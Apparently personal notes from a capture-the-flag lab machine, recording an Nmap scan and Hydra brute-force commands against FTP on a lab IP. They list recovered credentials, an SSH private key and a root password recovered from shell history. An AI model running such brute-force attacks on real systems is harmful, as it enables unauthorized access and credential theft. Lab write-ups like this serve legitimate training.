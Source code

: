 Found open FTP and SSH ports in Nmap scan

### Running Hydra on the root User
```shell-session
hydra -l root -P ../password.list ftp://10.129.95.150
```

Unsuccessful.

### Running Hydra
```shell-session
hydra -L ../username.list -P ../password.list ftp://10.129.95.150
```

### Found Credentials
mike:7777777

### Found SSH Private Key
![[Pasted image 20240412160752.png]]

passphrase we found before is required.

### Found root Password using the history Command
![[Pasted image 20240412161021.png]]

root:dgb6fzm0ynk@AME9pqu
